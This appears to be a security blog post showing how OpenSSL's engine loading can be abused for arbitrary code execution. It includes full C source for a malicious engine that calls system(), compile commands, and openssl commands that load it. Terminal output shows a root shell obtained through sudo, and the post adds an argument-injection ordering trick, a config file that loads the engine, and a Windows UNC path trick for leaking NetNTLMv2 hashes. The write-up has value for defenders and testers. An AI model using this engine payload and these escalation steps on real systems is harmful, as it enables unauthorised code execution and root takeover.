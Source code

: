 ```yaml
---
layout: page
title: OpenSSL Arg Injection 
permalink: /openssl-arginjection/
---
```


# OpenSSL code execution through argument injection

This is a short little post detailing how to get OpenSSL to run arbitrary code through the use of the `-engine` option. As detailed in the docs, an OpenSSL engine is a new component "to support alternative cryptography implementations, most commonly for interfacing with external crypto devices".  These engines consist of compiled code which is loaded by OpenSSL, and can be used to run arbitrary code. 

This is useful in situations such as if you have the ability to pass arguments (like in an argument injection vulnerability) to OpenSSL, or can alter a configuration file used to generate certificates. If you have sudo access to OpenSSL, you can easily elevate to full root. Exploiting this does however require placing the malicious engine file somewhere on the disk of the target file system. 

On Windows (using a commonly distributed OpenSSL windows binary) it appears you can also use UNC paths for the engine DLLs, which also has the convenient effect of disclosing NetNTLMv2 hashes should you wish them. However, if you're at this point, you should be able to get command execution using a malicious engine.

I've found multiple applications that allow argument injection into OpenSSL, and using this argument injection has enabled me to turn that into code execution.

## Details

For demonstration purposes, I have a system running Debian 10 with OpenSSL installed and the `libssl-dev` package. Create a file "engine.c", with the following contents:

```
#include <stdio.h>
#include <openssl/engine.h>

static const char *engine_id = "malengine";
static const char *engine_name = "Engine for executing arbitrary code";

static int bind(ENGINE *e, const char *id){
    int ret = 0;
    int status = system("/bin/bash -c 'echo \"arbitrary code\"'");
    if(!ENGINE_set_id(e,engine_id)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    if(!ENGINE_set_name(e,engine_name)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    ret = 1;
    end:
        return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
This file is mostly sourced from [this OpenSSL blog](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/).


Compile it using the following gcc command, which will create the `engine.so` shared library. The engine file does not need to end in .so. This is very convenient as if you have a a web application that only allows whitelisted extensions for files written to disk you can get an engine file on there. 

`gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -lcrypto a.o`

and then use the following OpenSSL command:
`openssl req -engine ~/engine.so`

which will output the following:
```
user@debian10:~$ openssl req -engine ~/engine.so
arbitrary code
engine "rce" set.
```

If you can run openSSL with sudo, you can spawn a bash shell:

`int status = system("/bin/bash");`

```
user@debian10:~$ sudo openssl req -engine ~/engine.so
root@debian10:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian10:/home/user# 
```

Several other OpenSSL commands seem to support the engine parameter, such as  
```
openssl rsa -engine ~/engine.so
openssl s_client -engine ~/engine.so
openssl x509 -engine ~/engine.so
```

and probably some more, just check the man page. 

Exploiting these in argument injection vulnerabilities isn't always trivial as just injecting the engine parameter, as depending on the position of the injected argument you may also need to have a valid set of OpenSSL arguments. Interestingly enough the engine seems to be loaded even if the other Openssl args are invalid, as long as the engine argument preceeds the invalid argument. So we see:

```
user@debian10:~$ openssl req INVALID -engine ~/engine.so
req: Use -help for summary.
user@debian10:~$  

```
doesn't work, however the following does:
```
user@debian10:~$ openssl req -engine ~/engine.so INVALID
arbitrary code
engine "rce" set.
req: Use -help for summary.
user@debian10:~$ 
```

If you can write multiple lines into an OpenSSL config file somehow (%0a perhaps...), you can probably get an engine reference in there. Create a config file like:

```
[default]
openssl_conf = openssl_init

[openssl_init]
engines = engine_section

[engine_section]
foo = foo_section

[foo_section]
dynamic_path = /home/user/engine.so
init = 1

```

then when this is used by OpenSSL:
```
user@debian10:~$ openssl req -new -config test.cnf
arbitrary code
Generating a RSA private key
..........................+++++
............................+++++
writing new private key to stdout
```

One of the major downsides with malicious engines like this is that they are not particularly portable. If your target system is running an older or newer version of OpenSSL your generated engine may not work. You'll need to set up an environment that matches the target system to compile the engine, or do it on the target system if possible. There may be a way to generate more portable versions of these engines that work with multiple versions of OpenSSL.

Also, it probably doesn't need saying but *this is not a vulnerability in OpenSSL*.
